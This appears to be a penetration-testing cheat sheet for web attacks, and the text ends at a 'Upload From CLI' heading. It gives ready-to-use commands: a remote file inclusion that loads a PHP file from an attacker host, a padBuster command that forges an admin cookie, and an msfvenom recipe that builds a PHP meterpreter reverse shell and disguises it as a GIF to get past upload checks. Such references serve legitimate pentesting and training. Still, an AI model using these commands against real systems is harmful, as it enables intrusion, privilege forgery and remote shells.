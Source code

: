 ##### Open Redirects

> ###### Resources

[Open URL Redirects](https://zseano.com/tutorials/1.html)

##### RFI

```
Kali> echo "<?php phpinfo(); ?>" > evil.txt
http://$TARGET/index.php?path=http://$ATTACKER/evil.txt
```

##### Padding Oracle Attack

> ###### Resources

[Automated Padding Oracle Attacks with Padbuster](https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html)

> ###### Arguments

```
url - first argument is the URL
encrypted - second argument is the encrypted text
bits - third argument is the number of bits per block
-cookies - define a cookie to use
-plaintext - plaintext to encrypt
```

> ###### Examples

```
Kali> padBuster.pl http://$TARGET "ENC-COOKIE-TEXT" 8
                                -cookies "ENC-COOKIE"
                                -plaintext '{"user":"admin","role":"admin"}'
```

##### AWS

> **Resources**

[AWS PENETRATION TESTING PART 1. S3 BUCKETS](https://www.virtuesecurity.com/blog/aws-penetration-testing-s3-buckets/)

##### File Upload

> ###### Make a backdoor GIF

```
# As a note, try to overwrite the magic bytes of your backdoor with a valid image
# so that the check will validate. This includes Content-Type.
Kali> msfvenom --list | grep php
Kali> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.15.237 LPORT=54321 -o evil.php
Kali> echo “FFD8FFEo” | xxd -r -p > evil.gif
Kali> cat evil.php >> evil.gif
```

> ###### Upload From CLI
